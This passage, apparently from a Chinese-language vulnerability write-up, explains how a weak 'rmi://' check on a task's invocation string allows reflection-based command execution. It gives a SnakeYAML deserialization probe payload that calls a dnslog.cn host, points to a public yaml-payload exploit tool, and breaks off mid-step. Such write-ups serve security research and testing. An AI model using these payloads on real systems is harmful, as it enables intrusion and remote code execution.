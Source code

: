 可以看到就只是判断了一下，目标字符串是否包含 `rmi://`，这就导致导致攻击者可以调用任意类、方法及参数触发反射执行命令。

![image-20240305203753016](assets/1710465660-7d614eeaafd833c82e470e1d616229aa.png)

![image-20240305203844623](assets/1710465660-69b2015d91dedac3840464643dc2a0e8.png)

由于反射时所需要的：类、方法、参数都是我们可控的，所以我们只需传入一个能够执行命令的类方法就能达到 getshell 的目的，该类只需要满足如下几点要求即可：

-   具有 public 类型的无参构造方法
-   自身具有 public 类型且可以执行命令的方法

## 4.6.2

因为目前对**调用目标字符串**限制不多，so 直接拿网上公开的 poc 打吧！

-   使用 Yaml.load () 来打 SnakeYAML 反序列化
-   JNDI 注入

### SnakeYAML 反序列化

探测 SnakeYAMLpoc：

```php
String poc = "{!!java.net.URL [\"http://5dsff0.dnslog.cn/\"]: 1}";
```

利用 SPI 机制 - 基于 ScriptEngineManager 利用链来执行命令，直接使用这个师傅写好的脚本：[https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)

1）把这块修改成要执行的命令
